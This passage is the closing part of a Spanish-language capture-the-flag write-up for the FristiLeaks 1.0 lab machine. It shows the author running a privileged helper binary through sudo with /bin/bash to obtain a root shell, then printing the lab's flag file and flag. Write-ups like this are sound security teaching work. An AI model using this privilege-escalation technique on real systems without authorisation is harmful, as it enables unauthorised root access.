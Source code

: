 >**``sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom``**

```console
Usage: ./program_name terminal_command
```
---

Al correr el comando se necesita un terminal_command. ¿Que tal si ese comando es ``/bin/bash``?

```console
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
bash-4.1# whoami
whoami
root
```
---

### **Flag**

---
Dentro de la carpeta ``/root`` existe una archivo llamado ``fristileaks_secrets.txt`` su contenido:

```console
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```

---


